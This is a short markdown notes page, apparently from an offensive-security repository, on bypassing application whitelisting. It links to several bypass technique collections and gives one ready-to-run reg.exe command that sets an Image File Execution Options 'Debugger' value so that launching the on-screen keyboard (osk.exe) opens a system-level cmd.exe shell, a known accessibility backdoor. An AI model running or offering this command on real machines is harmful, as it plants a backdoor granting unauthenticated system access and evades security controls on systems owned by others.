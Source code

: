 # Bypasses

## Application Whitelisting


[Application Whitelist Auditor - Airlock Digital](https://www.airlockdigital.com/application-whitelisting-auditor/)

[AllTheThings - SubTee](https://github.com/subTee/AllTheThings)

[Bypass Techniques - SubTee](https://github.com/subTee/ApplicationWhitelistBypassTechniques)

## Native Utilities

### Reg.exe

Create a registry entry on the host, allowing a system-level shell to be invoked any time that the osk.exe (on screen keyboard) process is called:

    reg.exe add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v "Debugger" /t REG_SZ /d "cmd.exe" /f
